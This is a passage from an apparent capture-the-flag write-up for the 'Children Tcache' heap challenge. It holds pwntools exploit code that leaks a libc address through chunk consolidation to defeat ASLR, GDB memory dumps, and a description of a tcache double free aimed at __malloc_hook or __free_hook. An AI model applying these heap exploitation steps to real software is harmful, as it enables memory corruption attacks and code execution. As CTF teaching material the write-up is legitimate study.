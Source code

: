 Now, we will have to `free(2)` such that the `chunk_3` the target chunk having the `prev_size` value `0x580` will consolidate with the chunk `0x0000555555757770`, so when we allocate a chunk of the size being the `0x508` this will result in the `fd` and the `bk` being populated with the `main_arena`'s address for the chunk `0x0000555555757770`, so initially the `chunk_0` i.e. `0x0000555555757770`  was not cleared but consolidated but since the global pointer contains this chunk's pointer on the index `0`, doing `show(0)`, we will have the LIBC leak, with the help of it we can defeat the ASLR.

```py
# heap_list[1] => chunk_4 (0x511)
# this will use the unsorted bin for allocation, and writes
# a libc address into chunk_1 fd/bk fi
new_heap(0x508, 'e' * 0x507)

# viwing chunk_1 will leak libc address
show_heap(0)

libc_addr = p.recvuntil('\n$$')[:-3]
libc_base = u64(libc_addr + b'\x00' * (8 - len(libc_addr))) - 0x3ebca0
log.info('LIBC Base: {}'.format(hex(libc_base)))
```

Now, doing so:-

```r
gef➤  x/10xg  0x0000555555554000 + 0x202060
0x555555756060:	0x0000555555757770	0x0000555555757260
0x555555756070:	0x0000000000000000	0x0000555555757de0
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
gef➤  x/8xg 0x0000555555757770 - 0x10
0x555555757760:	0x0065656565656565	0x0000000000000671  <--- the 0x671 = (0x600 + 0x71) is consolidated and for which after the allocation the fd & bk is populated
0x555555757770:	0x00007ffff7dcdca0	0x00007ffff7dcdca0
```

Having the leak:-

```r
vagrant@ubuntu-bionic:~/sharedFolder/training/hitcon$ python3 children_tcache.py
[+] Starting local process './children_tcache': pid 2842
[*] LIBC Base: 0x7ffff79e2000
[*] Switching to interactive mode
$$$$$$$$$$$$$$$$$$$$$$$$$
🍊    Children Tcache    🍊
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$   1. New heap           $
$   2. Show heap          $
$   3. Delete heap        $ 
$   4. Exit               $ 
$$$$$$$$$$$$$$$$$$$$$$$$$$$
Your choice: $ 
```

Now, we have the LIBC leak, defeating the ASLR, we have to now force the `malloc` to return a pointer which we can overwrite like `__malloc_hook` or `__free_hook` by taking advantage of the heap layout. To do so, initally we will take the overlapping of these chunks to get the duplicate entry, to replicate it, we will allocate a chunk of size `0x68` this will return the chunk as same as of the `chunk_1`. So, when we do the `free(1)` and `free(5)`, it'll result in the same chunk being deleted, since two chunks are `free`'d the `tcache` will have the duplicate entry for the chunks, making a loop, due to which we will be able to overwrite the `fd` & `bk` of the `free`'d chunk and let it return the chunk.

